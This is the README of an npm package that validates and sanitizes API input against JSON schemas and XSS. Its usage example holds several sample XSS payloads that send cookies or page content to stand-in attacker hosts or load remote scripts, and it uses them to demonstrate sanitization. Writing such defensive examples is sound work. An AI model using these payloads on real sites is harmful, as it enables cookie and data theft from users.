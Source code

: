 <h1 align="center">@thermopylae/lib.api-validator</h1>
<p>
  <img alt="Version" src="https://img.shields.io/badge/version-0.0.1-blue.svg?cacheSeconds=2592000" />
  <img alt="Node Version" src="https://img.shields.io/badge/node-%3E%3D16-blue.svg"/>
<a href="https://marinrusu1997.github.io/thermopylae/lib.api-validator/index.html" target="_blank">
  <img alt="Documentation" src="https://img.shields.io/badge/documentation-yes-brightgreen.svg" />
</a>
<a href="https://github.com/marinrusu1997/thermopylae/blob/master/LICENSE" target="_blank">
  <img alt="License: MIT" src="https://img.shields.io/badge/License-MIT-yellow.svg" />
</a>
</p>

> User input validation and sanitization for api services.

## Install

```sh
npm install @thermopylae/lib.api-validator
```

## Description

This package allows you to validate user input used by API Services. <br/>
Validation is performed against JSON schema and XSS injections. <br/>
Detailed information can be found in the API Doc of the [ApiValidator][api-validator-link] class.

## Usage

Assuming you have a directory structure as described [here][api-validator-init-link],
let's look at an example of how this package can be used. <br/>
Supposing we have the following schemas:

```text
└─ schemas
    └─ authentication-service
    │ ├─ login.json
    │ └─ logout.json
    ├─ book-service
    │ ├─ create.json
    │ ├─ read.json
    │ └─ delete.json
    └─ core
      └─ commons.json
```

We can perform validation in the following manner:

```typescript
import { ApiValidator, ValidationError } from '@thermopylae/lib.api-validator';

(async function main() {
	/* Perform initialization */
	const validator = new ApiValidator();
	// assuming schemas from 'core' folder are referenced by schemas from other service folders
	await validator.init('./schemas', ['core']);

	/* Successfull Scenario */
	let validData = {
		username: 'username',
		password: 'password'
	};
	// schema has id: #AUTHENTICATION_SERVICE-LOGIN
	validData = await validator.validate('AUTHENTICATION_SERVICE', 'LOGIN', validData);

	/* Error Scenario */
	try {
		let invalidData = {
			nameeee: 'Les Trois Mousquetaires',
			author: 'Alexandre Dumas'
		};
		invalidData = await validator.validate('BOOK_SERVICE', 'CREATE', invalidData);
	} catch (e) {
		if (e instanceof ValidationError) {
			console.error(validator.joinErrors(e.errors, 'text'));
			console.error(validator.joinErrors(e.errors, 'json'));
		}
		throw e;
	}

	/* XSS sanitization */
	const jsonWithXss = {
		// XSS Attack: steal sensitive information
		name: '<script>new Image().src="http://192.168.149.128/bogus.php?output="+document.body.innerHTML</script>',
		// XSS Attack: Steal user cookie
		surname: "<script>document.write('<img src=\"https://hacker-site.com/collect.gif?cookie=' + document.cookie + '\" />')</script>",
		// XSS Attack: Execute hacker script
		age: 'http://localhost:81/DVWA/vulnerabilities/xss_r/?name=<script src="http://192.168.149.128/xss.js">',
		// assuming this prop was added by some of your interceptors
		origin: {
			ip: '127.0.0.1'
		}
	};
	validator.sanitize(jsonWithXss, new Set(['origin.ip']));
	/**
	 * After sanitization it will look like this: { name: '<script>new
	 * Image().src="http://192.168.149.128/bogus.php?output="+document.body.innerHTML</script>',
	 * surname: `&lt;script&gt;document.write('<img
	 * src="https://hacker-site.com/collect.gif?cookie=' + document.cookie + '"
	 * />')&lt;/script&gt;`, age: 'http://localhost:81/DVWA/vulnerabilities/xss_r/?name=<script
	 * src="http://192.168.149.128/xss.js">', origin: { ip: '127.0.0.1' } }
	 */

	let stringWithXSS = '<button onclick=\'document.location= "http://www.example.com/cookie_catcher.php?c=" + document.cookie\'></button>';
	stringWithXSS = validator.sanitize(stringWithXSS);
	/**
	 * After sanitization it will look like this: '<button onclick='document.location=
	 * "http://www.example.com/cookie_catcher.php?c=" + document.cookie'></button>'
	 */
})();
```

## API Reference

API documentation is available [here][api-doc-link].

It can also be generated by issuing the following commands:

```shell
git clone git@github.com:marinrusu1997/thermopylae.git
cd thermopylae
yarn install
yarn workspace @thermopylae/lib.api-validator run doc
```

## Author

👤 **Rusu Marin**

- GitHub: [@marinrusu1997](https://github.com/marinrusu1997)
- Email: [dimarusu2000@gmail.com](mailto:dimarusu2000@gmail.com)
- LinkedIn: [@marinrusu1997](https://www.linkedin.com/in/rusu-marin-1638b0156/)

## 📝 License

Copyright © 2021 [Rusu Marin](https://github.com/marinrusu1997). <br/>
This project is [MIT](https://github.com/marinrusu1997/thermopylae/blob/master/LICENSE) licensed.

[api-doc-link]: https://marinrusu1997.github.io/thermopylae/lib.api-validator/index.html
[api-validator-link]: https://marinrusu1997.github.io/thermopylae/lib.api-validator/classes/apivalidator.html
[api-validator-init-link]: https://marinrusu1997.github.io/thermopylae/lib.api-validator/classes/apivalidator.html#init
